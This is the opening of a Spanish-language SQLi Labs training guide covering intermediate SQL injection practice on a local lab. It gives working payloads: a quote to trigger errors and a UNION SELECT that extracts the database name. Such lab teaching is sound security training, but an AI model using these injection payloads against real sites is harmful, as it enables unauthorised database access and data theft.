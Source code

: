 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **📌 PRÁCTICAS INTERMEDIAS Y AVANZADAS EN SQLi LABS**

🎯 **Objetivo:** Aprender y perfeccionar técnicas de **inyección SQL** en SQLi Labs, desde nivel intermedio hasta avanzado, incluyendo evasión de filtros, extracción de información y bypass de restricciones.

📌 **Requisitos previos:**

- Tener SQLi Labs configurado en **Windows 11 con XAMPP** o **Kali Linux con Apache/MySQL**.
- Conocimientos básicos en **PHP y MySQL**.
- Experiencia con **SQLMap y Burp Suite**.

⏳ **Duración estimada:** 10 - 15 horas (dependiendo de la complejidad de cada práctica).

# **📌 SQLi INTERMEDIO - EXTRACCIÓN DE DATOS**

## **🔹 Práctica 1: Identificación de Parámetros Vulnerables (Manual)**

📌 **Objetivo:** Encontrar campos vulnerables a SQLi.

**Pasos:**

1. Abre SQLi Labs y ve al Nivel 1:

   ```bash
http://localhost/sqli-labs/Less-1/
   ```

2. Modifica la URL:

   ```bash
   http://localhost/sqli-labs/Less-1/?id=1'
   ```
   
3. Si ves un error SQL, el campo es vulnerable.

## **🔹 Práctica 2: Extracción de Nombres de Bases de Datos**

📌 **Objetivo:** Obtener el nombre de la base de datos usando `database()`.

**Pasos:**

1. En la URL vulnerable, usa:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,database(),3 --+
   ```
   
2. Si el nombre de la base de datos aparece en pantalla, la inyección es exitosa.

## **🔹 Práctica 3: Listar Tablas de la Base de Datos**
